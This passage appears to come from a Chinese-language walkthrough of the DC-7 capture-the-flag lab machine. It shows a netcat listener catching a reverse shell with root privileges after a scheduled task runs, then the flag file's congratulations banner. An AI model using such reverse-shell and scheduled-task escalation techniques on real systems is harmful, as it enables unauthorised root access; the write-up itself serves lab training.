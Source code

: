     插入后等待任务自动执行，就能获得`root`的权限了
    
    ```python
    nc -lvp 1233
    listening on [any] 1233 ...
    
    id
    192.168.75.178: inverse host lookup failed: Unknown host
    connect to [192.168.75.151] from (UNKNOWN) [192.168.75.178] 54920
    uid=0(root) gid=0(root) groups=0(root)
    ```
    
7. 读取`flag`文件
    
    ```python
    # cat theflag.txt
    
    888       888          888 888      8888888b.                             888 888 888 888 
    888   o   888          888 888      888  "Y88b                            888 888 888 888 
    888  d8b  888          888 888      888    888                            888 888 888 888 
    888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
    888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
    88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
    8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
    888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 
    
    Congratulations!!!
    
    Hope you enjoyed DC-7.  Just wanted to send a big thanks out there to all those
    who have provided feedback, and all those who have taken the time to complete these little
    challenges.
    
    I'm sending out an especially big thanks to:
    
    @4nqr34z
    @D4mianWayne
    @0xmzfr
    @theart42
    
    If you enjoyed this CTF, send me a tweet via @DCAU7.
    ```